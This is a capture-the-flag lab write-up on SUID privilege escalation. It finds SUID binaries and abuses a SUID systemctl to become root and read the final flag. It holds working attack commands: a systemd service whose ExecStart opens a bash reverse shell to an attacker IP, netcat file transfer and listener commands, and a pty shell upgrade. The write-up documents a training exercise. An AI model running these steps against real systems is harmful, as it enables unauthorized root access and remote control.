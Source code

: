 ```
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

```
# hint
Use the command: find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
/bin/systemctl
```

2. <p>Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?</p><p>Become root and get the last flag (/root/root.txt)</p>

[https://gtfobins.github.io/gtfobins/systemctl/#suid](https://gtfobins.github.io/gtfobins/systemctl/#suid)

* create a `root.service` service on attacker
```bash
[Unit]
Description=giveMeRoot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.5.147/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
* listen for the service on target
```bash
www-data@vulnuniversity:/dev/shm$ nc -vl 44444 > root.service
```
* send service from attacker
```
nc -n 10.10.199.139 44444 < root.service
```
* listen on attacker on port 9999
```
nc -lvnp 9999
```
* enable and start service on target
```
/bin/systemctl enable /dev/shm/root.service

/bin/systemctl start root.service
```
* we have root! stabilise
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```